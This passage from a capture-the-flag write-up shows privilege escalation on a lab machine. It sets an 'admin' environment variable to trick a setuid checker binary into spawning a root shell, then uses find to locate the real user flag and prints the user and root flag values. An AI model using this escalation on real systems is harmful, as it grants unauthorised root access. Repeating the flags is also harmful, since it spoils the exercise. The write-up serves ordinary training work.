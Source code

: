 - The binary checks for the environment variable `admin` using `getenv("admin")`.
- If `admin` is not set (`nil`), it prints `"Not an Admin"` and exits.
- **Goal**: Trick the binary into thinking `admin` is set to trigger privileged code (likely a root shell or action).


We can do the following in order to get a root shell:

```
admin=1 /usr/sbin/checker /bin/sh
```

![](../images/Pasted%20image%2020250328153450.png)

Let's try reading flags:

```
root@blog:/tmp# cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

We need to find the real flag, let's do this:

```
find / -user bjoel \( -name "*flag*" -o -name "*user*" \) 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

We got it:

```
root@blog:/tmp# cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab
```

```
root@blog:/tmp# cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```